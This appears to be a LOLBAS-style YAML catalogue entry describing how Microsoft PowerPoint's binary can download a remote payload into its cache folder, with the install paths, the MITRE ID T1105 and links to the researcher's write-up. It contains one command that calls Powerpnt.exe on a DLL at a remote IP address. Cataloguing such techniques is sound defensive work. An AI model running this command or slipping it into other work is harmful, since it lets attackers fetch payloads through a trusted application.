 ```yaml
---
Name: Powerpnt.exe
Description: Microsoft Office binary.
Author: "Reegun J (OCBC Bank)"
Created: "2019-07-19"
Commands:
  - Command: Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: "@reegun21"
---
```

